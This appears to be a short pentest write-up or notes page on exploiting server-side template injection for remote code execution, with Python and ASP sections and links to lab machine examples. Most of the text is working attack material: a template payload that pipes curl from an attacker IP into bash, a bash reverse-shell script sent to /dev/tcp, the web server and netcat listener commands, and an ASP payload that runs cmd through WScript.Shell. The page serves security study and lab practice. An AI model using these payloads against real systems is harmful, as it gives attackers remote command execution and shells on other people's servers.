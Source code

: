 ```yaml
---
description: >-
  RCE via SSTI
title: RCE via SSTI              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, RCE via SSTI]                     # Change Templates to Writeup
tags: [exploitation, rce, ssti]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

Server-side template injection vulnerabilities can expose websites to a variety of attacks depending on the template engine in question and how exactly the application uses it. In certain rare circumstances, these vulnerabilities pose no real security risk. However, most of the time, the impact of server-side template injection can be catastrophic.

### PYTHON

There are several sources to get SSTI payloads to test such as [payloadbox](https://github.com/payloadbox/ssti-payloads) and [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), this one has a detailed explanation about this vulnerability and a methodology that we can use to test inputs for SSTI abuse.

First we need to inject our payload within the request:
```bash
POST / HTTP/1.1
.
.
costume={{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl+http%3a//10.10.16.5 | bash').read()+}}&q=ad&addr=ad
```
Create a script and name it as index.html:
```bash                                                              
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.5/1235 0>&1'
```
Start our python under the same path as index.html to share it:
```bash
sudo python3 -m http.server 80

nc -lvnp 1235
```
Examples:
[Epsilon](https://shuciran.github.io/posts/Epsilon/#fnref:rce-ssti)

### ASP
It is possible to exploit an ASP SSTI with the following payload:
```bash
<%response.write (7*7)%>
```
If the response reflects a "49" then you can use this payload to get RCE:
```bash
<%response.write CreateObject("WScript.Shell").Exec("cmd /c ping -n 1 10.10.14.4").StdOut.Readall()%>
```
Examples:
[[Anubis#^95c992]]